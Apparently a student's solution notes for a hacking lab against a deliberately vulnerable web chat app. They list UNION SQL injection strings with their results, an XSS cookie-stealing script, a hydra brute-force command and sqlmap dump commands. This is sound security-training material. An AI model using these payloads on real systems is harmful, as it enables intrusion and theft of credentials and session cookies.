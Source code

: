 # SQL-Injection Advanced

information_schema: table_schema, table_name

' OR 1=1 UNION SELECT table_schema FROM information_schema.tables -- 
-> dvwc

' OR 1=1 UNION SELECT table_name FROM information_schema.tables WHERE table_schema = 'dvwc' -- 
-> Chatrooms, PoMessages, Users

' OR 1=1 UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'Users' -- 
-> id, surname, prename, birthday, username, pwd, createdAt, updatedAt

' OR 1=1 UNION SELECT pwd FROM Users WHERE username = 'unionguy' -- 
-> sQL-iNJeCtion4EvERYonE


# XSS Session hijacking

<script>$.ajax({type: "GET", url: "http://dvwc.el.eee.intern/pomessage?message=" + document.cookie + "&from=alice&to=admin", success: (result) => {}});</script>

# Username Enumeration dictionary attack

hydra dvwc.el.eee.intern -V -l urs -P /usr/share/dirb/wordlists/small.txt http-post-form "/login/:username=^USER^&pwd=^PASS^:F=korrekt"

# sql-injection with sql-map

sqlmap -u http://dvwc.el.eee.intern/login --data="pwd=p;form=submit" --method POST --dbs --batch

sqlmap -u http://dvwc.el.eee.intern/login --data="pwd=p;form=submit" --method POST -D dvwc --tables --batch

sqlmap -u http://dvwc.el.eee.intern/login --data="pwd=p;form=submit" --method POST -D dvwc -T Users --columns --batch

sqlmap -u http://dvwc.el.eee.intern/login --data="pwd=p;form=submit" --method POST -D dvwc -T Users -C username,pwd --dump --batch
